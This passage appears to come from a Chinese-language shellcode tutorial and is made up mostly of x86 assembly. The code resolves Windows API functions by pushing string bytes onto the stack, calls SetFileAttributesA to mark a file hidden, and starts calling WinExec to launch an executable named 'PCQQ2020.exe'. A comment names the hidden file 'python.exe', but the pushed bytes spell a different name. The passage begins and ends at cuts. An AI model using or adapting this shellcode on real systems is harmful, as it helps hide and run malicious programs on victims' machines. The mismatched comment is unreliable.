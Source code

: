 ```
mov [esp+2],byte dl
push 0x65747562
push 0x69727474
push 0x41656c69
push 0x46746553

push esp
push edi

call esi

;--------------------------------

add esp,20 ;U must adjust stack or it will crash
```
8. 调用`SetFileAttributesA()`
```
;--------------------
;calling SetFileAttributesA("python.exe",FILE_ATTRIBUTE_HIDDEN) 
xor ecx,ecx
push ecx
push 0x6578652e
push 0x646c7970

push esp
pop ecx

xor edx,edx
add edx,2 ;FILE_ATTRIBUTE_HIDDEN

push edx
push ecx

call eax

;-------------------

add esp,8
```
9. 找到`WinExec()`函数地址
```
;---------------------------

;finding address of WinExec()
xor ecx,ecx

push 0x41636578
mov [esp+3],byte cl
push 0x456e6957

push esp
push edi
call esi

;----------------------

add esp,8

```
10. 执行函数
```
;------------------------
;calling WinExec("PCQQ2020.exe",0)
xor ecx,ecx
```